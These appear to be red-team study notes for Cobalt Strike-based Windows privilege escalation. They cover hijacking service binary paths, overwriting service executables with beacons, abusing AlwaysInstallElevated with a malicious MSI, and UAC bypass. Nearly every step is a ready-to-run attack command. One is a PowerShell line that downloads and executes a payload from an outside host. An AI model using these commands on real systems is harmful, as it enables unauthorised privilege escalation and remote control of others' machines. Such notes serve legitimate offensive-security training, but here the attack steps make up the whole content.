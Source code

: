 #### method -> weak service permission
1. First check what permissions are assosicated with the service
2. Command A: `powershell-import C:\Tools\Get-ServiceAcl.ps1`
3. Command B: `powershell Get-ServiceAcl -Name Vuln-Service-2 | select -expandproperty `
4. Lets assume we get **ServiceRights     : ChangeConfig, Start, Stop** response
5. So, we can try changing its **exe** path from **C:\Program Files\Vuln Services\Service 2.exe** to our malicious location e.g. **C:\temp\hack.exe**
6. Create and upload **TCP beacon exe** to the remote system -> `upload C:\Payloads\beacon-tcp-svc.exe`
7. Next -> `mv C:\Payloads\beacon-tcp-svc.exe C:\temp\fake-service.exe`
8. Check the orignal permissions of vulnservice2 -> `run sc qc Vuln-Service-2`
9. Next -> `run sc config Vuln-Service-2 binPath= C:\Temp\fake-service.exe`
10. Next -> `run sc qc Vuln-Service-2`
11. Next -> `run sc query Vuln-Service-2`
12. Next -> `run sc stop Vuln-Service-2`
13. Next -> `run sc start Vuln-Service-2`
14. Next -> `connect localhost 4444`
15. Theme: **if there are weak permissions against an application, we can modify its .exe path and get our malicious .exe in C:\temp get executed**
#### method -> weak service binary permission
1. This is just like the above vulnerablity, just small modifications i.e. we have **modify** permission. This allows us to simply overwrite the binary with something else (make sure you take a backup first).
2. So make a new malicious **tcp-beacon.exe**. 
3. Stop the vuln service `run sc stop Vuln-Service-3`
4. Upload -> `upload tcp-beacon.exe`
5. Rename it to -> `mv tcp-beacon.exe vuln-service-3.exe`
6. Start -> `run sc start Vuln-Service-3`
7. Connect -> `connect localhost 4444`

#### method -> always install elevated
0. metasploit method of exploiting this is fairly easy.
1. Generate a TCP-BEACON.exe
2. Open Visual Studio -> Create New Project -> Setup Wizard -> Create a Setup for Windows Application -> Add beacon file .exe (under any additional files you want to include) -> Select the project -> Change Target Platform to x64
3. Click on the project -> View -> Custom Actions -> Install -> Add custom action -> select beaon.exe
4. Run 64bit = True
5. Save it and Build it, a **.msi** will be generated
6. `beacon> run msiexec /i BeaconInstaller.msi /q /n` 
7. `connect localhost 4444`
8. Migrate to some other process
9. `beacon> run msiexec /q /n uninstall BeaconInstaller.msi`
10. `connect localhost 4444`

#### method -> UAC Bypass
1. First run the SharpUp.exe via command `execute-assembly /opt/CRTO/SharpUp.exe audit`
2. If you see some error like **In medium integrity but user is a local administrator - UAC can be bypassed.** Then this attack **may** be successful. 
3. Also you can verify it by typing commands ``shell whoami /groups`` and ``shell whoami /priv``. You must be in **admin** group e.g. **BUILTIN\Administrators**
4. Two methods are provided by **CS** for this **UAC Bypass** i.e. **elevate** and **runasadmin**
5. in cobalt strike type: `elevate uac-token-duplication <your listner name>` e.g. ``elevate uac-token-duplication my1st64bit``
6. in cobalt strike type: `runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"`
7. If we dont have alot of user permissions we can again try elevate i.e. `elevate svc-exe tcp-4444-local`

